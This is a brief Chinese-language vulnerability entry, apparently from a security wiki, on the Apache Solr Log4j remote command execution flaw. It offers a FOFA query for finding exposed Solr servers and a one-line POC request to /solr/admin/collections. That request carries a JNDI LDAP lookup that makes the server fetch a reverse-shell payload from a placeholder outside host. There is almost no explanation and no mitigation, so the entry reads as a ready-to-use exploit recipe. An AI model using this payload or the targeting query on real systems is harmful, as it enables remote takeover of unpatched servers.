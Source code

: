 ```yaml
---
title: Apache Solr Log4j组件 远程命令执行漏洞
---
```

# Apache Solr Log4j组件 远程命令执行漏洞

## 漏洞描述

Apache Solr Log4j组件 远程命令执行漏洞，详情略

## 漏洞影响

<a-checkbox checked>Apache Solr</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639122271639-51bacb0d-9e88-4234-87c2-cb374d1b98a3.png)

验证POC

```go
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639122349239-d4352e9a-59b4-4562-afff-6a529d398d0e.png)

